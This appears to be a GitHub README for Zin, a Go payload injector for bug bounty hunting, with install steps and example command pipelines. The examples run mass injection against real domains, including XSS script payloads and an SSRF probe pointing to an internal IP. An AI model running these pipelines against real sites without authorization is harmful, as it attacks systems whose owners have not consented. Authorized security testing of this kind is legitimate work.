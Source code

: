 ![alt text](https://upload.wikimedia.org/wikipedia/commons/9/9a/Filled_Syringe_icon.svg)
##### Version 1.0

# 😎 Zin 😎
**A Payload Injector for bugbounties written in go**



[![Image from Gyazo](https://i.gyazo.com/d305459fe752bba0dd853e63fe81d7f1.gif)](https://gyazo.com/d305459fe752bba0dd853e63fe81d7f1)

### Features

- Inject multiple payloads into all parameters
- Inject single payloads into all parameters
- Saves responses into output folder
- Displays Status Code & Response Length
- Can grep for patterns in the response
- Really fast
- Easy to setup


### Install


**`$ go get -u github.com/ethicalhackingplayground/Zin`**

### New Features
-✅ Pattern Matching in responses 

-✅ Match Status Codes

### Arguments
```
      _
     (_)
  _____ _ __
 |_  / | '_ \
  / /| | | | |
 /___|_|_| |_|


May the bounties come


  -c int
        the concurrency (default 20)
  -g string
        grep the response for any matches
  -p string
        the payload to be used
  -pL string
        the list of payloads to be used
  -s int
        filter by status codes (default 200)
        
```



### SSRF Example
**`$ subfinder uber.com | gau | grep "=http" | Zin -c 80 -p http://10.82.214.84:31386/foobar.js -g "SUP3R_S3cret_1337_K3y"`**

### XSS Example

**`$ subfinder uber.com | gau| Zin -c 80 -p '"><script>alert(matchforthis)script>' -g "matchforthis"`**


### Inject Multiple Payloads
**`$ cat hosts | gau | grep "&" | Zin -c 80 -pL <payloadfile>`**

### Subdomain Scanning

**`$ subfinder -dL domains --silent | gau | Zin -c 80 -p <payload>`**


### Only Test Parameters

**`$ echo "google.com" | gau | grep "&" | Zin -c 80 -p '"><script>alert(matchthis)</script<"' -g "matchthis" `**

### Multiple Hosts

**`$ cat hosts | gau | Zin -c 80 -p <payload>`**


**If you get a bounty please support by buying me a coffee**

<br>
<a href="https://www.buymeacoffee.com/krypt0mux" target="_blank"><img src="https://www.buymeacoffee.com/assets/img/custom_images/orange_img.png" alt="Buy Me A Coffee" style="height: 41px !important;width: 174px !important;box-shadow: 0px 3px 2px 0px rgba(190, 190, 190, 0.5) !important;-webkit-box-shadow: 0px 3px 2px 0px rgba(190, 190, 190, 0.5) !important;" ></a>

